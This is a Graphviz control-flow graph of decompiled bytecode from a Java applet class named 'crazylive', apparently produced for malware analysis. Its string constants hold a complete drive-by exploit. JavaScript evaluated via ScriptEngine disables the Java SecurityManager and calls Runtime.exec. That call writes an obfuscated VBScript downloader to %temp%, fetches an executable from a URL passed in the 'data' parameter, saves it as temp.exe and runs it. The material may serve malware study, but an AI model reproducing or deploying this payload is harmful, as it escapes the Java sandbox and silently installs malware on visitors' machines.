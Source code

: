 digraph "" {
    "r0 := @this: crazylive"
    "load.r r0"
    "r0 := @this: crazylive"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r $r11"
    "newarray"->"store.r $r11";
    "load.r $r11"
    "store.r $r11"->"load.r $r11";
    "push 0"
    "load.r $r11"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"js\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"js\"";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "push \"js\""->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"data\""
    "load.r r0"->"push \"data\"";
    "virtualinvoke <crazylive: java.lang.String getParameter(java.lang.String)>"
    "push \"data\""->"virtualinvoke <crazylive: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <crazylive: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "new java.lang.StringBuilder"
    "store.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo dim m,s>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo m=\\\"M^i^c^r^o^s^o^f^t^.^X^M^L^H^T^T^P\\\">>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo s=\\\"A=D=O=DB=.=S=t=r=e=a=m\\\">>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"^\\\",\\\"\\\")) >>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"=\\\",\\\"\\\"))>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\happy.vbs\\\" \""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo dim m,s>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo m=\\\"M^i^c^r^o^s^o^f^t^.^X^M^L^H^T^T^P\\\">>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo s=\\\"A=D=O=DB=.=S=t=r=e=a=m\\\">>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"^\\\",\\\"\\\")) >>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"=\\\",\\\"\\\"))>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\happy.vbs\\\" \"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'cmd.exe /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo dim m,s>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo m=\\\"M^i^c^r^o^s^o^f^t^.^X^M^L^H^T^T^P\\\">>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo s=\\\"A=D=O=DB=.=S=t=r=e=a=m\\\">>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo set cmd =Createobject(replace(m,\\\"^\\\",\\\"\\\")) >>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo cmd.Send()>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo Set CsCriptGet = Createobject(replace(s,\\\"=\\\",\\\"\\\"))>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Open()>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\happy.vbs\\\"&&cmd.exe /c cscript \\\"%temp%\\\\happy.vbs\\\" \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" \\\"%temp%\\\\temp.exe\\\"&& \\\"%temp%\\\\temp.exe\\\"\');\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" \\\"%temp%\\\\temp.exe\\\"&& \\\"%temp%\\\\temp.exe\\\"\');\"";
    "push \" \\\"%temp%\\\\temp.exe\\\"&& \\\"%temp%\\\\temp.exe\\\"\');\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"return \\\"exploit!\\\";};\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"return \\\"exploit!\\\";};\"";
    "push \"return \\\"exploit!\\\";};\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"error.message = this;\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"error.message = this;\"";
    "push \"error.message = this;\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "push \"error\""
    "pop"->"push \"error\"";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "push \"error\""->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "new javax.swing.JList"
    "arraywrite.r"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r $r11";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r $r11"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <crazylive: javax.swing.JList list>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <crazylive: javax.swing.JList list>";
    "fieldput <crazylive: javax.swing.JList list>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <crazylive: javax.swing.JList list>"
    "load.r r0"->"fieldget <crazylive: javax.swing.JList list>";
    "virtualinvoke <crazylive: java.awt.Component add(java.awt.Component)>"
    "fieldget <crazylive: javax.swing.JList list>"->"virtualinvoke <crazylive: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <crazylive: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <crazylive: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
}
